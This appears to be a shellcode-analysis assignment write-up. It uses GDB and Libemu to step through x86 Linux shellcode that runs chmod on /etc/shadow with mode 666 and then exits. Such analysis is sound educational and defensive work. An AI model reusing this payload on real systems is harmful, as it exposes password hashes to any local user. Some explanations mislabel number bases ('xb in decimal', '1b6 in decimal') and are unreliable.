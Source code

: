 # Solution (Using GDB and Libemu)

Using exec_compile.sh, the final shellcode is generated and executed. We can use GDB to analyze its behaviour. 

Using Libemu, we can obtain the next image of the process flow:

![alt text](https://github.com/MrSquid25/SLAE/blob/master/Assignment%205/chmod/chmod.png "Flow")

If we analyze the nasm code, we can reach the following conclusions:

      cwd
      push byte 0xf
      pop eax
      push edx
      call 0x1
      pop ebx
      push dword 0x1b6
      pop ecx
      int 0x80
      push byte 0x1
      pop eax
      int 0x80

1)   cwd
     
     push byte 0xf
     
     pop eax
          
          EAX is set to 15 (xb in decimal) which is chmod. Edx is set to 0 too. 
      
2)    push edx
            
          EDX is pushed to the stack 
    
3)    call 0x1 
      
          Next instruction is called 
     
 4)  pop ebx
 
          EBX is set to the file which will be modified, in this case, /etc/shadow
    
  5)  push dword 0x1b6
       
      pop ecx
      
          666 is pushed to the stack (1b6 in decimal) and assigned to ecx
          
   6) int 0x80 
   
            chmod is executed 
            EAX=15 (chmod syscall)
            EBX=/etc/shadow (PATH)
            ECX=666 (permissions to assign to the file)
            
   7) push byte 0x1
   
      pop eax
      
      int 0x80
      
            Exit function is called and the process exits quietly.
